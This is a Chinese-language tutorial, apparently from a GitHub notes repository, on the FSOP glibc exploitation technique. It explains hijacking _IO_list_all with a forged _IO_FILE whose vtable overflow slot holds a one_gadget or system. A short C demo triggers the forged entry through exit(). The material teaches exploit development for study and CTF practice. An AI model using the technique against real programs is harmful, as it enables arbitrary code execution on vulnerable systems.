





# FSOP

   &nbsp;&nbsp;进程内所有的\_IO\_FILE结构会使用\_chain域相互连接形成一个链表，这个链表的头部由\_IO\_list\_all维护。




​    &nbsp;&nbsp;FSOP的核心思想就是劫持\_IO\_list\_all的值来伪造链表和其中的\_IO\_FILE项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP选择的触发方法是调用\_IO\_flush\_all\_lockp，这个函数会刷新\_IO\_list\_all链表中所有项的文件流，相当于对每个FILE调用fflush，也对应着会调用\_IO\_FILE\_plus.vtable中的\_IO\_overflow。




**\_IO\_flush\_all\_lockp的触发方式**

1.当libc执行abort流程时

2.当执行exit函数时

3.当执行流从main函数返回时


**\_IO\_flush\_all\_lockp的触发流程图**




由源码可以知道为了在执行\_IO\_flush\_all\_lockp函数时能够跳转到vtable上的__overflow（64位下偏移为0x18），我们需要伪造的地方

1，\_IO\_list\_all指针的值                                                 使其指向我们伪造的\_IO\_FILE\_plus结构

2，fp->\_mode                                                                满足条件fp->\_mode<=0

3，fp->\_IO\_write\_ptr  ，fp->\_IO\_write\_base             满足条件fp->\_IO\_write\_ptr > fp->\_IO\_write\_base 

4，vtable偏移量为0x18的地方                                     填入onegadget或者system


FSOP攻击图解




演示代码

```c
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

执行到exit(0)的时候触发了\_IO\_flush\_all\_lockp，gdb运行结果：




